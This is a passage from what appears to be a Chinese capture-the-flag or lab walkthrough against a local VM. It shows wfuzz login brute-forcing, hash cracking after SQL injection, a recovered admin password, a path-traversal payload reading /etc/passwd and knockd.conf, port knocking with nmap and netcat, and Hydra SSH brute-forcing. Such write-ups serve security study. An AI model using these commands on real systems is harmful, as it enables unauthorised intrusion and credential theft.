     使用wfuzz进行爆破、亦可使用BP等
    
    wfuzz -z file,用户名字典名 -z file,密码字典名 -d "username=FUZZ&password=FUZZ2" http://192.168.149.135/manage.php
     
    可使用 --hw "Word数" 来对结果进行过滤

结果发现全部不匹配

再次SQL注入获取其他库的数据、通过sqlmap自带的碰撞哈希获得解密后的用户名与密码

若未成功碰撞，可前往somd5.com 等网站进行md5查询

    admin transorbital1
    成功登录入网站后台
## 3.LFI读取密码文件
**LFI 本地文件包含**
    使用wfuzz来猜测参数
    
    wfuzz -b 'COOKIE' -w 字典路径 http://192.168.149.135/manage.php?FUZZ=index.php

如
      
      wfuzz -b 'PHPSESSID=ur6fe2lbb3tcdc08bj4gbqsuns' -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.149.135/manage.php?FUZZ=index.php
     
该字典中未找到参数
可能原因：字典不全、后端未对请求的正确和错误进行区分处理
使用绝对路径访问一定存在的文件
将参数index.php 变为 /etc/passwd
仍未发现、猜测为并不在根目录、使用../../跳到根目录
    
    即 ../../../../etc/passwd
     
发现参数 file
成功使用该参数获得系统用户表

    http://192.168.149.135/manage.php?file=../../../../etc/passwd

## 4.Hydra爆破SSH密码
亦可使用美杜莎、msf等工具

使用Hydra与ssh协议对系统用户名进行爆破

    hydra -L 用户名字典 -P 密码字典 IP 协议(ssh等)
     
无法连接、猜测为使用了Linux的knockd服务隐藏了端口
若启用了该服务/etc/knockd.conf文件就会有内容
使用前面的LFI文件包含漏洞得到该文件内容：
 
    [options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn
     
得到定义的序列 7469,8475,9842
使用nmap按顺序访问这3个端口，ssh的22端口将会被开启#倒序访问为关闭(隐藏)
    nmap -p 7469 192.168.149.135
    nmap -p 8475 192.168.149.135
    nmap -p 9842 192.168.149.135
或使用for循环和netcat来按顺序访问这三个端口
    for x in 7469 8475 9842 ;do nc 192.168.149.135 $x;done
     